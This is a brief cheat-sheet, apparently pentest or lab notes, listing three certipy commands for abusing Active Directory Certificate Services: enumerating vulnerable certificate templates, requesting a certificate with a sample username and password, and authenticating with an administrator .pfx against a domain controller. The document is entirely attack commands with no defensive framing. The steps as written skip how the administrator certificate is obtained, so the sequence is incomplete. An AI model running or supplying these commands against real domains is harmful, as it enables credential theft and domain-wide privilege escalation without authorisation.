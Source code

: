 1.  **look for templates to abuse**

```bash
certipy find -vulnerable -u user@domain.local -p Passw0rd -dc-ip 10.10.11.236  
```
  
  2.  **Request Cert**

```bash
certipy req -username user@domain.local -p Passw0rd -ca corp-DC-CA -target ca.corp.local -template User
```
  
3. **Auth with cert**

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236  
```
